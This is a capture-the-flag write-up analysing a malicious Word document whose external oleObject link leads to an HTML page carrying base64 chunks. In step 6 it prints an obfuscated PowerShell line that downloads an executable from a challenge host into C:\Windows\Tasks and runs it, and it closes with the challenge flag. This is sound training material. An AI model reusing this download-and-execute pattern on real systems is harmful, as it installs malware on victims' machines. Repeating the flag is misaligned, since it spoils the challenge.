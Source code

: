 # Write-up :Diagnotic
* *1.Given a host which we can use to retrieve the doc file .download the doc with wget :wget IP/layoffs.doc* 
* *2.use `oleid` on the document found an External Relationships* 
* *3.use `oleobj` for details* *
* *4.Found relationship 'oleObject' with external link http://diagnostic.htb:32218/223_index_style_fancy.html!* 
* *5.download the html file with wget :wget IP/223_index_style_fancy.html!* *
* *6. find two base64 chunk in html inside a script tag the first one contain a powershell script :* 
```python
${f`ile} = ("{7}{1}{6}{8}{5}{3}{2}{4}{0}"-f'}.exe','B{msDt_4s_A_pr0','E','r...s','3Ms_b4D','l3','toC','HT','0l_h4nD')
&("{1}{2}{0}{3}"-f'ues','Invoke','-WebReq','t') ("{2}{8}{0}{4}{6}{5}{3}{1}{7}"-f '://au','.htb/2','h','ic','to','agnost','mation.di','/n.exe','ttps') -OutFile "C:\Windows\Tasks\$file"
&((("{5}{6}{2}{8}{0}{3}{7}{4}{1}" -f'L9FTasksL9F','ile','ow','L','f','C:','L9FL9FWind','9FkzH','sL9F'))  -CReplAce'kzH',[chAr]36 -CReplAce([chAr]76+[chAr]57+[chAr]70),[chAr]92)
```

* *7.the `file` variable is the **flag** just take the first line to a power shell or reorder the string and you get the flag:* 

flag : HTB{msDt_4s_A_pr0toC0l_h4nDl3r...sE3Ms_b4D}
